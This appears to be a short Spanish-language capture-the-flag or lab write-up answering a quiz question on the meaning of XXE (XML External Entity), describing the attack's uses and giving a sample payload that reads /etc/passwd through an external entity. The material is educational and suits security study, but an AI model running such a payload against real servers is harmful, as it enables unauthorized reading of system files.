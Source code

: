 > **Pregunta:**  
> _What does the XXE / XEE attack acronym stand for?_

> **Pista dada:**  
> `OWASP Top 10 2017`

### 🛡️ XXE – XML External Entity

📌 Este tipo de vulnerabilidad consiste en abusar del análisis de entidades externas dentro de documentos XML para:

- Extraer archivos del sistema del servidor 🗃️
    
- Leer contenido no autorizado 🕵️
    
- Realizar ataques SSRF 🌐 (Server-Side Request Forgery)
    
- Y más...
    

![](../img/5950905e97493a80a587571816b8521d.png)


---

📚 Ejemplo de Payload

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
